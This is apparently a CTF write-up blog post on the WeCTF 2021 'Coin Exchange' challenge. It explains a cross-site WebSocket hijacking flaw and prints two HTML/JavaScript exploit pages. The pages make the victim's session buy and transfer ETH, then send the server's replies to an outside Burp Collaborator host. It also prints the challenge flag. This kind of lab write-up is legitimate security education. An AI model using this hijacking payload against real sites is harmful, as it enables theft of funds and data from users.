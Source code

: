 ```yaml
---
title: WeCTF 2021 - Coin Exchange
layout: post 
date: '2021-06-21 11:00:00'
description: solving a CSWSH vuln chall
image: 'https://i.imgur.com/wZ02kqX.jpg'
tags:
- web
- ctf
- infosec
- writeup
author: k4l1
---
```


Hi everyone! C:

After lot of months I'm posting here again! I played the WeCTF 2021(a only-web CTF) with my team, we got #25/574 place and the challs were awesome. I'm finally studying web vulns and now had a chance to apply that.


## Description

62 solves / 379 pts

>Shou lost a few thousand bucks on cryptocurrency. So, he decided to fake a crypto exchange and steal all the money of the users next week. Try break Shou's evil plan by stealing all his money.

>This challenge requires user interaction. Send your payload to uv.ctf.so Flag is sent when you have $5000 in the account.

>Hint: Search CSRF if you don't know what that is.

>Host 1 (San Francisco): coin.sf.ctf.so:4001
>Host 2 (Los Angeles): coin.la.ctf.so:4001
>Host 3 (New York): coin.ny.ctf.so:4001
>Host 4 (Singapore): coin.sg.ctf.so:4001
>
>Source Code: [here]([https://](https://cdn.discordapp.com/attachments/855858525087334421/855858633715351597/coin-exchange.zip))

## Coin Exchange Website

#### Login

![](https://i.imgur.com/hjm5Z54.png)

#### Exchange

![](https://i.imgur.com/vEFD7Jn.png)

#### Ranking

![](https://i.imgur.com/8t3YfA0.png)

#### Transfer

![](https://i.imgur.com/YzK1SR7.png)


## Solution

This site use Websocket instead http requests and isn't protected to CSRF, so basically we need send to admin a malicious website with CSWSH(Cross-site websocket hijacking) to transfer eth to your account.

Intercepting with BurpSuite and seeing on `WebSockets history` we can read the traffic:

![](https://i.imgur.com/GwnLdLz.png)


Checking the source, we can see how the connection is created:


```js
function start_socket(){
    socket = new WebSocket("ws://" + document.URL.substr(7).split('/')[0], "ethexchange-api");
    socket.onopen = function(e) {
        routine = setInterval(routine_update, 1000)
    };
    socket.onmessage = function(event) {
        .
        .
        .
    }
}
```

On second line we can see that it use a custom protocol called `ethexchange-api`, this will be important to connect.

For send a page to admin, I'm using `ngrok` with python `SimpleHTTPServer` and receiving the response with `Burp Collaborator`.

Let's try to code a xpl to send to admin...

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending this to admin...

![](https://i.imgur.com/h8o4Fkp.png)

Badly, the admin don't have Eth, so we need to buy with his money(on Ranking Page show that the admin had `$1000000000000`).

```js
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}
      var buy = {"type":"buy","content":{"amount":"7000"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending again to admin, we can see that we transferred 3 eth after buy it 3 times with $7000.
![](https://i.imgur.com/XEa4u0p.png)

Intercepting again after got more than $5000:

![](https://i.imgur.com/aYLN8L9.png)

We got the flag: `we{1e1b12c8-ed85-4b2b-879d-7475febe6281@d0g3&sh1b_th3_BEST!}`


## References

* [CSWSH vuln chall](https://kalinathalie.github.io/web-chall-coin-exchange-wectf2021/)